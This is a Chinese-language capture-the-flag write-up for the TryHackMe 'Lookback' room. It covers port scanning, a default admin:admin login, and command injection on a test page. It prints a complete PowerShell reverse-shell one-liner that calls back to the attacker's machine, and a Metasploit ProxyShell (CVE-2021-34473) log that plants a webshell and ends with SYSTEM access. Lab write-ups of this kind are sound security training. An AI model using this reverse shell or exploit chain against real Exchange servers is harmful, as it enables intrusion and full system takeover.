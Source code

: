 ```yaml
---
sidebar_position: 73
tags: [Easy, Windows, 命令注入, Exchange]
title: Lookback
description: Lookback
sidebar_label: Lookback
slug: /tryhackme/73
---
```

# Lookback
## 端口扫描

```bash
root@ip-10-10-185-114:~/lookback# nmap -sT -p- --min-rate 1000 -Pn 10.10.103.157

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-06 07:38 BST
Nmap scan report for ip-10-10-103-157.eu-west-1.compute.internal (10.10.103.157)
Host is up (0.00033s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 100.26 seconds
```

## 443
![20240703192651](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703192651.png)

发现一个 test 页面, 访问发现需要提供密码, 此时我尝试了 admin:admin 密码就成功登陆

![20240703192706](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703192706.png)

在此查看后, 我发现这是一个命令执行窗口, 随意输入后, 我猜测其后端代码为;

```bash
cmd = "'c:\' + user_input '"
```

接着我构造了绕过语句

![20240703192719](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703192719.png)

## 后渗透
### admin
经过不断的尝试最终我发现了可以获取 Shell 的 Payload

```bash
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.185.114',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
![20240703192736](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703192736.png)


### admin —> administrator

在用户 dev 的目录中, 我发现了一个 TODO,txt 文件

```bash
PS C:\Users\dev\Desktop> type TODO.txt
Hey dev team,

This is the tasks list for the deadline:

Promote Server to Domain Controller [DONE]
Setup Microsoft Exchange [DONE]
Setup IIS [DONE]
Remove the log analyzer[TO BE DONE]
Add all the users from the infra department [TO BE DONE]
Install the Security Update for MS Exchange [TO BE DONE]
Setup LAPS [TO BE DONE]

When you are done with the tasks please send an email to:

joe@thm.local
carol@thm.local
and do not forget to put in CC the infra team!
dev-infrastracture-team@thm.local
```

之后的看了 WP 才知道使用 MSF 的 Exchange 模块进行攻击

```bash
msf6 exploit(windows/http/exchange_proxyshell_rce) > set RHOSTS 10.10.103.157
RHOSTS => 10.10.103.157
msf6 exploit(windows/http/exchange_proxyshell_rce) > set LHOSt 10.10.185.114
LHOSt => 10.10.185.114
msf6 exploit(windows/http/exchange_proxyshell_rce) > **set email dev-infrastracture-team@thm.local**
email => dev-infrastracture-team@thm.local
msf6 exploit(windows/http/exchange_proxyshell_rce) > run

[*] Started reverse TCP handler on 10.10.185.114:4445 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Attempt to exploit for CVE-2021-34473
[*] Retrieving backend FQDN over RPC request
[*] Internal server name: win-12ouo7a66m7.thm.local
[*] Assigning the 'Mailbox Import Export' role via dev-infrastracture-team@thm.local
[+] Successfully assigned the 'Mailbox Import Export' role
[+] Proceeding with SID: S-1-5-21-2402911436-1669601961-3356949615-1144 (dev-infrastracture-team@thm.local)
[*] Saving a draft email with subject 'IkP0bZTmzOc' containing the attachment with the embedded webshell
[*] Writing to: C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\4mA7z7gJ.aspx
[*] Waiting for the export request to complete...
[+] The mailbox export request has completed
[*] Triggering the payload
[*] Sending stage (200774 bytes) to 10.10.103.157
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\4mA7z7gJ.aspx
[*] Meterpreter session 1 opened (10.10.185.114:4445 -> 10.10.103.157:10073) at 2023-09-06 08:14:48 +0100
[*] Removing the mailbox export request
[*] Removing the draft email

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```